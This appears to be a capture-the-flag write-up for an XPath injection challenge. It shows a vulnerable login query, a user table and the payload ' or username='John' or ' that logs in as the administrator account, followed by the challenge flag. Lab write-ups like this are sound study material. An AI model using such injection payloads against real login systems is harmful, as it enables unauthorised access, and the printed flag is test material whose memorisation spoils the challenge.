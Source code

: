 ```yaml
---
layout: default
title: XPath-injection-Authentication
---
```


This is the query:
```xml
string(//user[username/text()='input' and password/text()='input']/account/text())
```

And we also can see this table:

**Members**
Username |	Email |	Account type
----- |       -----  |  ------
Steve |	steve@jobs.com  |	subscriber
John  | John@doe.org |	administrator
Eric  |	ric@ard.biz |	subscriber


So, we'll give this payload `' or username='John' or '` and the full query will be:
```
username=' or username='John' or '&password=a
```

![FINAL](./images/XPath-injection-Authentication_FINAL.png)

**Flag:** **_`J41m3Qu4nD54Tr0nc`_**